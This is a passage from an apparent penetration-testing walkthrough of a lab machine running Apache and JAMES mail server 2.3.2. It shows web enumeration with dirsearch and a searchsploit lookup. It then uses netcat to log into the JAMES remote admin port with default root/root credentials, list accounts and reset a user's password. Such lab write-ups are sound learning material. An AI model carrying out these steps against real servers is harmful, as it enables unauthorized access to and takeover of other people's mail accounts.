 version > 5.x, no known vulnerabilities

#### http(80) - Apache httpd 2.4.25

##### manual enumeration

- ```webadmin@solid-state-security.com``` could be used for DNS and subdomain discovery
  - add ```solid-state-security.com, www.solid-state-security.com``` to /etc/hosts
- the function of message will send a post request to about.html, HTML is always no vuln to exploit, because it is a static page
  - ```<form method="post" action="#">```
- robots.txt, sitemap.xml
- admin, login
- wappalyzer
- view page source
  - annotation, comment, hidden information
  - link path, script, hidden element
  - Copyright, author, version

##### automated enumeration

```bash
dirsearch -u http://172.16.33.35
dirsearch -u http://172.16.33.35 -w /usr/share/seclists/Discovery/Web-Content/big.txt
dirsearch -u http://172.16.33.35 -f -e php,asp,aspx,jsp,html,txt,zip
```

#### smtp(25, 110, 119 4555) - JAMES smtpd 2.3.2

##### searchsploit

```bash
searchsploit James
searchsploit -m 35513
```

actually, the poc is used username and password root/root to add a new user.
we also can use root/root to login JAMES Remote Admin which port is 4555.

##### login JAMES Remote Admin

after login, we can update the user's password.

```bash
nc -nv 172.16.33.35 4555

listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin

setpassword mindy 123
Password for mindy reset
```
